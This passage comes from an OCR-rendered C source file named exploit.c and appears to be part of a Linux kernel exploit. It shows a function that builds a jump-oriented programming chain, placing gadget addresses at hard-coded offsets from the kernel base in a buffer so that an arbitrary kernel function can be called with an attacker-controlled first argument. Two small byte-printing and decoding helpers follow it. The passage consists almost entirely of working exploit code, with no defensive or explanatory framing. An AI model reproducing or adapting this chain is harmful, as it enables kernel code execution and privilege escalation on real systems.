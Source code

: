 ```c {script_name="exploit.c"}
    }

    return 0;
}

//execute functions with rdi control thanks to jop
uint64_t kernel_base = 0;
uint64_t buff_address = 0;
uint64_t execute(uint64_t rdi, uint64_t target_func) {
    uint64_t push_rdi_pop_rsi_jmp_rsi_plus_0x2e = kernel_base+0x32e788;
    uint64_t push_rdx_jmp_0x66 = kernel_base+0xd4b591;
    uint64_t pop_rdi_jmp_0x41 = kernel_base+0x91d2bd;

    //1st stage
    //  write rdx, the raw value, to the stack
    *(uint64_t*)(buf + 0x2e) = push_rdx_jmp_0x66;

    //2nd stage
    //  pop rdx into rdi
    *(uint64_t*)(buf + 0x66) = pop_rdi_jmp_0x41;

    //final stage
    //  execute the function
    *(uint64_t*)(buf + 0x41) = target_func;

    printf("Executing; starting %p ending %p\n", push_rdi_pop_rsi_jmp_rsi_plus_0x2e, target_func);

    //0th stage
    //  RSI = RDI (buff addr)
    //  jump to (buff addr + 0x2e)
    return raw_execute(push_rdi_pop_rsi_jmp_rsi_plus_0x2e, 0, rdi);
}

void pretty_print(unsigned char* buf, size_t size) {
    printf("Printing: ");

    int ctr = -1;
    for(int i = 0; i < size; i++) {
        if(buf[i] == 0) {
            if(ctr == -1) {
                ctr = 0;
                printf(" ... ");
            }
            ctr += 1;
            continue;
        }else{
            if(ctr != -1) {
                printf("%d bytes ... ", ctr);
                ctr = -1;
            }
        }

        printf("%02x ", buf[i]);
    }
    printf("\n");
}

uint64_t u64(unsigned char* arr) {
    uint64_t res = 0;
    for (int i = 0; i < 8; i++) {
        res |= (uint64_t)arr[i] << (i * 8);
    }
    return res;
```